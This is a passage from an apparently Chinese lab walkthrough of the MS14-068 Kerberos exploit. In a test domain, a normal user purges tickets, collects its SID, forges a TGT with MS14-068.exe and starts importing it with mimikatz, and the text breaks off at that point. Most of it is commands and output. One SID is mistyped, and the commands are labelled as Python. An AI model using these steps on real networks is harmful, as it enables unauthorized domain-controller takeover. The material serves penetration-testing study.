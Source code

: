 2. win7上测试漏洞，以域内普通用户a登录，并尝试IPC连接域控C盘
    
    ```python
    C:\Users\a>dir \\owa.god.org\c$
    拒绝访问。
    ```
    
3. 如何将现在起作用的票据删掉
    
    ```python
    C:\Users\a>klist purge
    
    当前登录 ID 是 0:0x1ebb42
            删除所有票证:
            已清除票证!
    ```
    
4. 使用whoami获得用户`SID`
    
    ```python
    C:\Users\a>whoami /all
    
    用户信息
    ----------------
    
    用户名 SID
    ====== ==============================================
    god\a  S-1-5-21-2952760202-1353902439-2381784089-1108
    ```
    
    获得SID `S-1-5-21-2952760202-1353902439-2381784089-1108`
    
5. 利用ms14-068.exe提权工具生成伪造的kerberos协议认证证书
    
    `MS14-068.exe -u <userName>@<domainName> -p <clearPassword> -s <userSid> -d <domainControlerAddr>`
    
    ```python
    C:\Users\a\Desktop>MS14-068.exe -u a@god.org -s S-1-5-21-2952760202-13539024392381784089-1108 -d 192.168.52.138
    Password:
      [+] Building AS-REQ for 192.168.52.138... Done!
      [+] Sending AS-REQ to 192.168.52.138... Done!
      [+] Receiving AS-REP from 192.168.52.138... Done!
      [+] Parsing AS-REP from 192.168.52.138... Done!
      [+] Building TGS-REQ for 192.168.52.138... Done!
      [+] Sending TGS-REQ to 192.168.52.138... Done!
      [+] Receiving TGS-REP from 192.168.52.138... Done!
      [+] Parsing TGS-REP from 192.168.52.138... Done!
      [+] Creating ccache file 'TGT_a@god.org.ccache'... Done!
    ```
    
    会在桌面生成一个TGT票据
    
6. 利用mimikatz来导入票据
    
    ```python
    mimikatz # kerberos::purge
    Ticket(s) purge for current session is OK
    